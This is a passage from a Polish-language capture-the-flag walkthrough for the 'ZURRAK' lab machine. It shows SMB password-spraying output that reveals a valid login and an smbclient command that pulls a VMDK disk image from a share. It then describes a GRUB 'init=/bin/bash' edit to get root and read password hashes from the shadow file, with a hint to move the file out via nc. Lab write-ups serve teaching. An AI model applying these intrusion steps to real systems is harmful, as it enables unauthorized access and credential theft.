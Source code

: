```bash
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:smitty STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:loveis STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:honest STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:deleon STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:ESTRELLA STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:twins STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:stephany STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:roberts STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:pizzas STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:monmon STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [-] ZURRAK\asli:jeffrey1 STATUS_LOGON_FAILURE 
SMB         172.16.1.170    445    ZURRAK           [+] ZURRAK\asli:ilovecats 
```
Mając login, hasło i udział można spróbować wejść na **SMB**.
{: .text-justify}
# 06. SMB
```bash
smbclient \\\\172.16.1.170\\share -U asli --password ilovecats
```
Będąc w katalogu **\operations\New folder\deploy\3\latest\approved** należy ściągnąć plik **zurrak.old.vmdk**
{: .text-justify}
```bash
smb: \operations\New folder\deploy\3\latest\approved\> ls
  .                                   D        0  Tue Oct 24 22:21:21 2023
  ..                                  D        0  Tue Dec 18 07:30:09 2001
  zurrak.old.vmdk                     N 713883648  Tue Dec 18 07:30:09 2001

                9232860 blocks of size 1024. 6113440 blocks available
smb: \operations\New folder\deploy\3\latest\approved\> get zurrak.old.vmdk 
getting file \operations\New folder\deploy\3\latest\approved\zurrak.old.vmdk of size 713883648 as zurrak.old.vmdk (110448,7 KiloBytes/sec) (average 110448,7 KiloBytes/sec)
smb: \operations\New folder\deploy\3\latest\approved\> 
```
# 07. zurrak.old.vmdk
Tę nową wirtualkę odpaliłem w **WMware WorkStation player 17**. Pamiętaj jednak, że jak masz zainstalowanego **Virtual Box**a to najlepiej na chwilę wyłączyć jego interfejs sieciowy, jeżeli masz zamiar korzystać z sieci. Jednak pójdziemy na skróty i widząc ekran **Grub**a wciskamy **e**, a potem edytujemy linię (tam gdzie jest __linux__). Zamieniamy **ro  quit** na **rw init=/bin/bash**. Wciskamy **F10** i jazda. Po uruchomieniu maszyny mamy dostęp do **root**a. W pliku __/etc/shadows__ są hasła: **root** i **postgres**. A jak ściągnąć cały plik do siebie? Wystarczy go przerzucić przez **nc**, ale to zostawiam na ćwiczenie dla czytelnika.
{: .text-justify}